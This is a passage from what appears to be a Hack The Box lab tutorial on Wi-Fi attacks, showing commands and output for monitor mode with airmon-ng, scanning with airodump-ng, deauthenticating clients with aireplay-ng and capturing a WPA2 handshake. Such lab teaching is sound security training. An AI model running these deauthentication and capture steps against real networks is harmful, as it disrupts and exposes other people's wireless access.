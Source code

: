 wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
          
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
          
lo        no wireless extensions.

eth0      no wireless extensions.
</code></pre>
<p>We put the wlan0 interface into monitor mode by running:</p>
<pre><code class="language-shell-session">[!bash!]$ airmon-ng start wlan0
</code></pre>
<p>Next, we launch a scan using airodump-ng to identify available Wi-Fi networks and save the output to a file:</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng wlan0mon -c 1 -w HTB

 CH  1 ][ Elapsed: 48 s ][ 2025-01-19 22:35 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 52:CD:8C:79:AD:87  -28 100      475       90    0   1   54   WPA2 TKIP   PSK  HTB-Wireless         

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
                                 
 52:CD:8C:79:AD:87  02:00:00:00:01:00  -29   11 -11      0       78  EAPOL  HTB-Wireless  
</code></pre>
<p>To force clients to disconnect and reconnect, triggering the handshake capture, we use aireplay-ng.</p>
<pre><code class="language-shell-session">[!bash!]$ aireplay-ng --deauth 5 -a 52:CD:8C:79:AD:87 wlan0mon

22:35:19  Waiting for beacon frame (BSSID: 52:CD:8C:79:AD:87) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c &lt;client's mac&gt;).
22:35:19  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
22:35:20  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
22:35:20  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
22:35:21  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
22:35:21  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
</code></pre>
<p>We then take a look for a message in the <code>airodump-ng</code> terminal indicating a handshake has been captured. The file (e.g., HTB-01.cap) now contains the captured handshake.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng wlan0mon -c 1 -w HTB

 CH  1 ][ Elapsed: 48 s ][ 2025-01-19 22:35 ][ WPA handshake: 52:CD:8C:79:AD:87 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 52:CD:8C:79:AD:87  -28 100      475       90    0   1   54   WPA2 TKIP   PSK  HTB-Wireless         
